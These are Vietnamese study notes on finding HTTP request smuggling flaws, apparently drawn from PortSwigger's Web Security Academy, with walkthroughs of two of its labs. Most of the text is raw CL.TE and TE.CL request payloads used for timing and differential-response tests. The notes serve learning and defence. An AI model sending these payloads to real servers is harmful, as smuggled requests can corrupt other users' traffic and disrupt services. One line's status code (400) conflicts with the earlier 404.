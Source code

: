 # Finding HTTP request smuggling vulnerabilities

## Using timing techniques
Cách hiệu quả nhất để phát hiện các lỗ hổng giấu yêu cầu HTTP là gửi các yêu cầu gây ra độ trễ thời gian trong phản hồi của ứng dụng nếu tồn tại lỗ hổng.

### CL.TE
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Vì máy chủ phía trước sử dụng header `Content-Length`, nó sẽ chỉ chuyển tiếp một phần của yêu cầu này, bỏ qua X. Máy chủ phía sau sử dụng header `Transfer-Encoding`, xử lý khối đầu tiên và sau đó chờ khối tiếp theo. Điều này sẽ gây ra độ trễ thời gian. (Vì ko có `0` kết thúc nên nó chờ)

### TE.CL
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

Ngược lại vì máy chủ trước là TE nên nó ko gửi X và máy chủ sau là CL nên nó thấy content-length chưa đủ nên sẽ chờ gây ra response bị trễ 

**Lưu ý: Kiểm tra dựa trên thời gian cho lỗ hổng TE.CL có thể làm gián đoạn người dùng ứng dụng khác nếu ứng dụng dễ bị tấn công với biến thể CL.TE của lỗ hổng. Nên thử nghiệm CL.TE trước và chỉ tiếp tục thử nghiệm TE.CL nếu thử nghiệm đầu tiên không thành công**

## Using differential responses
Khi phát hiện lỗ hổng có khả năng giấu yêu cầu, bạn có thể thu thập thêm bằng chứng cho lỗ hổng bằng cách khai thác nó để kích hoạt sự khác biệt trong nội dung phản hồi của ứng dụng. Điều này bao gồm việc gửi hai yêu cầu đến ứng dụng một cách nhanh chóng:
- Một yêu cầu "tấn công" được thiết kế để can thiệp vào việc xử lý yêu cầu tiếp theo.
- Một yêu cầu "bình thường".

Nếu phản hồi của yêu cầu bình thường chứa sự can thiệp dự kiến, lỗ hổng đã được xác nhận.

Ví dụ, giả sử yêu cầu bình thường trông như sau:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Yêu cầu này thường nhận phản hồi HTTP với mã trạng thái 200, chứa kết quả tìm kiếm.

Yêu cầu tấn công cần thiết để can thiệp vào yêu cầu này phụ thuộc vào biến thể giấu yêu cầu hiện diện: CL.TE hoặc TE.CL.

### CL.TE
Để xác nhận lỗ hổng CL.TE, bạn sẽ gửi yêu cầu tấn công như sau:
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
Nếu tấn công thành công, hai dòng cuối của yêu cầu này sẽ được máy chủ phía sau xử lý như là thuộc về yêu cầu tiếp theo nhận được. Điều này sẽ khiến yêu cầu "bình thường" tiếp theo trông như sau:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Do yêu cầu này hiện chứa URL không hợp lệ, máy chủ sẽ phản hồi với mã trạng thái 404, cho thấy yêu cầu tấn công đã thực sự can thiệp vào yêu cầu đó.
### TE.CL
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
cần bao gồm chuỗi kết thúc `\r\n\r\n` sau ký tự 0 cuối cùng.

Nếu tấn công thành công, tất cả nội dung từ GET /404 trở đi sẽ được máy chủ phía sau coi là thuộc về yêu cầu tiếp theo. Điều này sẽ khiến yêu cầu "bình thường" tiếp theo trông như sau:
```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
---
![alt text](image-8.png)


---

### 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

Áp dụng kiến thức vừa tìm hiểu, với `CL.TE` ta sẽ gửi request: 
```http
POST / HTTP/1.1
Host: 0aa50033043932f684576956009100f3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
foo:
```

Bên back-end sẽ xử lí thành 2 request: 
```http
POST / HTTP/1.1
Host: 0aa50033043932f684576956009100f3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Transfer-Encoding: chunked

0

```

và
```http
GET /404 HTTP/1.1
foo:
```
Nên khi gửi request lần thứ 2 nó sẽ phản hồi về 400 vì `/404` không tồn tại:
![alt text](image-7.png)

---

### 2. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

![alt text](image-9.png)

Chú ý với TE.CL cần có `\r\n\r\n` sau `0` nếu không có sẽ dẫn đến time-out request 





